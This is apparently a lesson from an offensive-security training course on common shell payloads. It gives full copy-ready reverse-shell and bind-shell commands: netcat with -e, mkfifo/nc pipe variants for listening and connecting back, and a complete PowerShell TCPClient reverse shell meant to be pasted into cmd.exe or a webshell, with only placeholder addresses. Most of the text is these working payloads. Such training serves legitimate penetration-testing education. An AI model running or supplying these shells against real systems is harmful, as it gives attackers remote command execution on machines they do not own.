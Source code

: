 ## Common Shell Payloads

We'll soon be looking at generating payloads with msfvenom, but before we do that, let's take a look at some common payloads using the tools we've already covered.

### Netcat Bindshell

A previous task mentioned that we'd be looking at some ways to use netcat as a listener for a bindshell, so we'll start with that. In some versions of netcat (including the `nc.exe` Windows version included with Kali at `/usr/share/windows-resources/binaries`, and the version used in Kali itself: `netcat-traditional`) there is a `-e` option which allows you to execute a process on connection. For example, as a listener:

```bash
nc -lvnp <PORT> -e /bin/bash
```

Connecting to the above listener with netcat would result in a bind shell on the target.

### Netcat Reverse Shell

Equally, for a reverse shell, connecting back with:

```bash
nc <LOCAL-IP> <PORT> -e /bin/bash
```

would result in a reverse shell on the target.

However, this is not included in most versions of netcat as it is widely seen to be very insecure. On Windows where a static binary is nearly always required anyway, this technique will work perfectly. On Linux, however, we would instead use this code to create a listener for a bind shell:

```bash
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

The following paragraph is the technical explanation for this command. It's slightly above the level of this room, so don't worry if it doesn't make much sense for now -- the command itself is what matters.

The command first creates a named pipe at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into `sh`, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.

### Netcat Reverse Shell (Alternative)

A very similar command can be used to send a netcat reverse shell:

```bash
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
```

This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.

### Powershell Reverse Shell

When targeting a modern Windows Server, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.

This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

In order to use this, we need to replace `<IP>` and `<port>` with an appropriate IP and choice of port. It can then be copied into a `cmd.exe` shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell.

### Additional Resources

For other common reverse shell payloads, [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) is a repository containing a wide range of shell codes (usually in one-liner format for copying and pasting), in many different languages. It is well worth reading through the linked page to see what's available.